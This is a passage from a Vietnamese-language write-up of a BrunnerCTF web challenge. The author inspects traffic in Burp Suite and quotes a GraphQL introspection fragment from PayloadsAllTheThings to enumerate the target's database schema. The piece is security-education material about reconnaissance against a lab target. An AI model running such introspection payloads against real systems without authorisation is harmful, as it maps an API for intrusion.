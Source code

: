 Quay trở lại Burpsuite ta thấy phần request và respone như bên dưới
![alt text](image-1.png)
![alt text](/assets/img/posts/BrunnerCTF/image-1.png)
Khi tìm kiếm trong **PayloadsAllTheThings**[^1] thì mình kiếm được một payload khá là hữu ích để liệt kê toàn bộ lược đồ của cơ sở dữ liệu (**Database Schema**)

```GraphQL
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}
fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}
```

[^1]: https://swisskyrepo.github.io/PayloadsAllTheThings/GraphQL%20Injection/#identify-an-injection-point